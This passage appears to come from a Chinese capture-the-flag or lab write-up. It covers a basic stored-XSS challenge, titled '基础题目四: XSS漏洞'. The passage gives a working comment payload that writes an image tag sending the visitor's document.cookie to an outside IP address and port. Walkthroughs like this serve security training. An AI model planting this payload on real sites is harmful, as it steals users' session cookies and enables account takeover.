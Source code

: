 成功拿到key
![upload successful](/images/pasted-898.png)


# 34224 基础题目四: XSS漏洞

![upload successful](/images/pasted-899.png)

直接留言：
```
<script>
document.write('<img src=\"http://11.1.12.155:9098/?'+document.cookie+'\"/>')
</script>
```